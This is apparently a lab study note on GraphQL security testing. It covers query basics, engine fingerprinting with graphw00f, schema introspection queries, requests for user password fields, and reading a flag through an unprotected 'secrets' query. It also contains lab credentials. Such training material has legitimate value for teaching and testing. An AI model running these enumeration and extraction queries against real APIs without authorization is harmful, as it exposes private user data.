




# GraphQL

This document outlines common techniques for identifying and exploiting vulnerabilities related to **GraphQL**. It is intended as a practical, hands-on reference rather than a comprehensive theoretical guide.

---

# Table of Contents

- [GraphQL](#graphql)
    - [Overview](#overview)
    - [Information Disclosure](#information-disclosure)
    - [Insecure Direct Object Reference (IDOR)](#insecure-direct-object-reference-idor)

---

## Overview

GraphQL is a **query language for APIs** and is commonly used as an alternative to **Representational State Transfer (REST)**. Unlike REST, which exposes multiple endpoints for different resources, GraphQL APIs typically operate through a **single endpoint** that handles all queries and mutations.

GraphQL queries can be used to **read, create, update, and delete data**, offering increased efficiency in both resource utilization and request handling compared to traditional REST-based APIs.

A GraphQL service is commonly exposed at endpoints such as:

- `/graphql`
- `/api/graphql`
- Similar application-specific paths

Interacting directly with the GraphQL endpoint can reveal **misconfigurations and security weaknesses**, making it a valuable attack surface during application testing.

GraphQL operates on **objects**, each of which is defined by a specific **type**. Objects expose **fields** that can be queried by the client. According to GraphQL syntax, queries are executed from the **root level**, where the name of the query determines the entry point.

The following example demonstrates a query named `users` that requests the `id`, `username`, and `role` fields for all `User` objects:

```graphql
{
  users {
    id
    username
    role
  }
}
```

The corresponding response returns two `User` objects:

```graphql
{
  "data": {
    "users": [
      {
        "id": 1,
        "username": "htb-stdnt",
        "role": "user"
      },
      {
        "id": 2,
        "username": "admin",
        "role": "admin"
      }
    ]
  }
}
```

If a query supports **arguments**, they can be used to filter the returned results. For example, if the `users` query supports a `username` argument, the following request retrieves information for the `admin` user only:

```graphql
{
  users(username: "admin") {
    id
    username
    role
  }
}
```

Queries can also be modified to request **additional or alternative fields**. For instance, the `role` field can be replaced with the `password` field:

```graphql
{
  users(username: "admin") {
    id
    username
    password
  }
}
```

Objects in GraphQL may reference other objects. GraphQL supports **nested queries**, allowing a client to retrieve data from related objects within a single request.

Suppose the `posts` query exposes an `author` field, which references a `User` object. The following example queries fields from the nested `author` object:

```graphql
{
  posts {
    title
    author {
      username
      role
    }
  }
}
```

---

## Information Disclosure

The first step is determining whether the target application utilizes **GraphQL**.

We are provided with valid credentials:

```
htb-student:AcademyStudent!
```

After authenticating and intercepting the application’s traffic, we observe requests being sent to a **GraphQL endpoint**:

```
/graphql
```


This confirms that the application relies on GraphQL for backend communication.

The next step is identifying the GraphQL engine used by the application. To achieve this, we utilize `graphW00f`, a GraphQL fingerprinting tool. `graphW00f` sends a series of valid and malformed GraphQL queries and determines the underlying engine by analyzing response behavior.

First, clone the GitHub repository:

```
git clone https://github.com/dolevf/graphw00f.git
```

We then execute the tool from within the cloned directory. The following command runs `graphW00f` in fingerprinting (`-f`) and detection (`-d`) mode while supplying the target URL via `-t`. By providing the base URL, `graphW00f` attempts to automatically locate the GraphQL endpoint:

```bash
python3 main.py -d -f -t http://83.136.253.144:39282
```

The tool successfully discovers the GraphQL endpoint and identifies the engine in use:

```
[*] Discovered GraphQL Engine: (Graphene)
```



`graphW00f` leverages the **GraphQL Threat Matrix Project** as its reference database. Upon successfully fingerprinting the endpoint, the tool provides a URL to the relevant threat matrix documentation:

```
[!] Attack Surface Matrix: https://github.com/nicholasaleks/graphql-threat-matrix/blob/master/implementations/graphene.md
```



This document outlines common misconfigurations and attack surfaces specific to the **Graphene** GraphQL implementation.

By directly accessing the GraphQL endpoint in a browser, we observe that the application exposes a `GraphiQL` interface:

```
http://94.237.120.137:33885/graphql
```



The `GraphiQL` interface allows us to interact with the GraphQL API directly, making it easier to craft and test queries without relying on **Burp Suite**. This reduces the risk of malformed JSON requests and improves efficiency during enumeration.

**Introspection** is a built-in GraphQL feature that allows clients to query the API for details about its schema. When enabled, introspection can expose valuable information about available types, queries, and fields.

To enumerate all supported types, we query the `__schema` field:

```graphql
{
  __schema {
    types {
      name
    }
  }
}
```


The response reveals several objects that can be queried, including:

- `UserObject`
- `SecretObject`
- `RegisterUser`

We can further enumerate the fields of a specific object. For example, the following query retrieves all fields exposed by `UserObject`:

```graphql
{
  __type(name: "UserObject") {
    name
    fields {
      name
      type {
        name
        kind
      }
    }
  }
}
```


This reveals sensitive fields such as:

- `username`
- `password`
- `role`

To identify all available queries supported by the backend, we enumerate the root query type:

```graphql
{
  __schema {
    queryType {
      fields {
        name
        description
      }
    }
  }
}
```


This includes the following queries:

- `secrets`
- `users`
- `posts`

For complete visibility into the GraphQL schema, including types, fields, mutations, and directives, we can issue a full introspection query:

```graphql
query IntrospectionQuery {
      __schema {
        queryType { name }
        mutationType { name }
        subscriptionType { name }
        types {
          ...FullType
        }
        directives {
          name
          description
          
          locations
          args {
            ...InputValue
          }
        }
      }
    }

    fragment FullType on __Type {
      kind
      name
      description
      
      fields(includeDeprecated: true) {
        name
        description
        args {
          ...InputValue
        }
        type {
          ...TypeRef
        }
        isDeprecated
        deprecationReason
      }
      inputFields {
        ...InputValue
      }
      interfaces {
        ...TypeRef
      }
      enumValues(includeDeprecated: true) {
        name
        description
        isDeprecated
        deprecationReason
      }
      possibleTypes {
        ...TypeRef
      }
    }

    fragment InputValue on __InputValue {
      name
      description
      type { ...TypeRef }
      defaultValue
    }

    fragment TypeRef on __Type {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
                ofType {
                  kind
                  name
                  ofType {
                    kind
                    name
                  }
                }
              }
            }
          }
        }
      }
    }
```

After identifying the available queries, we attempt to access the `secrets` query directly:

```graphql
{
  secrets{
	secret
  }
}
```

The server responds with the following data:

```
{
  "data": {
    "secrets": [
      {
        "secret": "HTB{ddd7c7354d1f06db3604b3bbc8ccf5cd}"
      }
    ]
  }
}
```



This confirms that **sensitive data is accessible without proper authorization**, demonstrating an information disclosure vulnerability caused by unrestricted GraphQL introspection and inadequate access controls.

---

## Insecure Direct Object Reference (IDOR)